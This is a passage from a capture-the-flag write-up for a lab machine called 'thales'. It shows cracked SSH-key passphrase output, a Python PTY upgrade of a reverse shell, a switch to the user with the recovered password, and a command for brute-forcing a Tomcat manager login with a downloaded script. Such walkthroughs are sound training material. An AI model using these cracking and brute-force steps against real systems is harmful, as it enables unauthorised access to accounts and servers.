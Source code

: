 ```
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
vodka06          (id_rsa)     
1g 0:00:00:00 DONE (2022-09-23 21:36) 1.265g/s 3620Kp/s 3620Kc/s 3620KC/s vodka1420..vodka*rox
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
In no time the password for thales has been found. Now I can add the following to my notes: **thales:vodka06**
To logon via the SSH service I run the command **ssh thales@$ip -i id_rsa**

```bash
┌──(emvee㉿kali)-[~/Documents/thales]
└─$ ssh thales@$ip -i id_rsa 
Enter passphrase for key 'id_rsa': 
thales@10.0.2.6: Permission denied (publickey).

```
This didn't work for me... Perhaps I could switch user (su) in the reverse shell.
First I will upgrade the shell with a Python script, so I can see which user I am using.
After I have upgraded the shell, I switch user with the command **su thales**, then I enter the password **vodka06** and hit the enter key.

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
tomcat@miletus:/$ su thales
su thales
Password: vodka06

thales@miletus:/$ whoami;id;hostname
whoami;id;hostname
thales
uid=1000(thales) gid=1000(thales) groups=1000(thales),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
miletus
thales@miletus:/$ 
```
It worked... to gain access to the user. The route to root is the same as written above by using the backup.sh file to gain privileges as root.

## Alternative Tomcat Manager Brute Force
I was not happy using the msfconsole to brute force the Tomcat manager. The option to use Hydra was still not working for me. So I decided to look further with some Google Fu, I had found a [potential script](https://gist.github.com/th3gundy/d562eb1ae5dc42d666d3aab761bd4d96). I copied the script to a new file and looked into the source code to see what is was doing before I run the script.

To use the script I only had to specify a few arguments. The command should look like this:
**python brute-tomcat-manager.py --host 10.0.2.6 --port 8080 --path /manager/html --usr /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt --pwd /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt**
